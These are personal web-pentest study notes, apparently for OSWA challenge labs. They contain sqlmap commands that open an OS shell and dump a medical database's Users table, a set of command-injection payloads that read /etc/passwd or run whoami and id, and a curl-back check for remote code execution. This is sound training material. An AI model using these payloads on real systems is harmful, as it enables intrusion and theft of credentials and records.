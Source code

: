 - example of getting flag from `screamin' firehawk` using this method
```bash
sqlmap -r postpost_req.txt --batch -v 0 -p passengerCount --os-shell
```
method to `dump` everything
```bash
┌──(root💀gobots)-[18Dec2024 13:29:01]-[/home/…/SUT/OSWA/challenge_labs/solarmedical]                                   
└─# sqlmap -r tstres_req1_day2.txt -p patientName -D MedicalDB -T Users --dump-all --batch 
```

------
#### XSS - Java Script Source Code Review - Admin User Creation
- Ensure to review `SourceCode main.js` of important endpoints - `/admin`, `/login` etc.. 
- Was required in `Mentor` box in conjunction with `XSS`
[[5. web page enum - local.txt]]
-----------
### All Possible Vulnerabilities Description & Examples
#### All Possible Vulnerabilities Description 

##### Credential Fuzzing
 If a `login` field exists, specific words are used around the web page. `Could be clues to Credentials Fuzzing`
##### Local Code Execution
 If there are `parameters` to test in `burpsuite` test them various ways by testing for `; cat /etc/passwd`
##### Remote Code Execution
Same as LCE except `RCE` is when you are able to reach back to `kali` machine such as `curl http://IP/test.txt`
##### Insecure Direct Object Reference (IDOR)
If `unique identifiers` (like user IDs or file IDs) are in the URL or parameters, test if they can be manipulated to access other users' resources.
Example: Change `/profile?id=123` to `/profile?id=124` to see if unauthorized data is exposed.
##### Command Injection
If `user input` is incorporated into system commands without proper sanitization, test if you can execute arbitrary commands on the server.
Example: Inject payloads into input fields or parameters to execute system commands, such as:
`; ls` or `&& ls` to list files in the current directory.
`; cat /etc/passwd` to read sensitive files.
`| whoami` to determine the user context of the application.
Using payloads like `$(id)` or `` `id` `` to execute commands in subshells.
Test using variations of common delimiters (`;`, `&&`, `||`, `|`, `$( )`, `` ` ` ``) depending on the command execution context.

```bash
### Common Special Characters for Command Injection:

1. **Pipe Operators**:
    
    - | (Pipe)
    - || (Logical OR)
2. **Redirection Operators**:
    
    - > (Output redirection)
    - >> (Append redirection)
    - < (Input redirection)
    - &> (Redirect stdout and stderr)
3. **Logical and Control Operators**:
    
    - & (Command separator/background execution)
    - && (Logical AND)
```